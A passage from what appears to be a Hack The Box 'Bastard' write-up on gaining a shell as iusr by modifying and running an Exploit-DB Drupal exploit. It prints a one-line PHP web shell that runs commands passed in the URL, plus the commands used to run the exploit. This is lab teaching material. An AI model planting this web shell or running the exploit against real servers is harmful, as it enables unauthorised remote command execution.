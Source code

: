 ## Getting a Shell as iusr

Firstly we will need to download the php-curl library from apt, this can be done with:

{% highlight bash linenos %}
sudo apt install php-curl
{% endhighlight %}

Next, we need to modify the [script](https://www.exploit-db.com/exploits/41564) from Exploit DB to include the rest endpoint, the ip of Bastard, the name of the php webshell to be placed and the contents of that php file, below are the values that I used.

![script](/images/hackthebox-writeups/bastard/webshell.png)

Specifically I changed the contents of the webshell to be,
{% highlight php linenos %}

<?php echo system($_GET["cmd"]); ?>

{% endhighlight %}

This will give us a nicer shell.

### Running the Exploit

Now that we have modified our PHP script, we can run it with the following command:

{% highlight php linenos %}
php Drupal-Exploit.php
{% endhighlight %}

![webshell-1](/images/hackthebox-writeups/bastard/exploit-2.png)
